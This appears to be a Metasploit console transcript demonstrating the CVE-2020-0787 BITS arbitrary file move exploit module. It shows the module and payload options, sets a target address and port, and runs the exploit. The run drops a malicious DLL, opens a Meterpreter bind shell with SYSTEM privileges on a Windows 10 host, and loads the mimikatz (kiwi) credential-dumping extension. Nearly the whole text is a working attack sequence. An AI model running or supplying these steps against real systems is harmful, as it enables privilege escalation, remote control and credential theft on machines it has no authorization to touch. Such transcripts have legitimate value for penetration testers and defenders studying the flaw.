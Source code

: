 Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  40               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION        4                yes       The session to run this module on.


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     9988             yes       The listen port
   RHOST     172.26.22.128    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.26.17.231
RHOST => 172.26.17.231
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 8822
LPORT => 8822
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set JOB_WAIT_TIME 30
JOB_WAIT_TIME => 30
msf exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target environment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 78336 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Sleeping for 30 seconds to allow the exploit to run...
[*] Started bind TCP handler against 172.26.17.231:8822
[*] Sending stage (176195 bytes) to 172.26.17.231
[*] Meterpreter session 5 opened (0.0.0.0:0 -> 172.26.17.231:8822) at 2020-06-10 12:18:16 -0500

meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
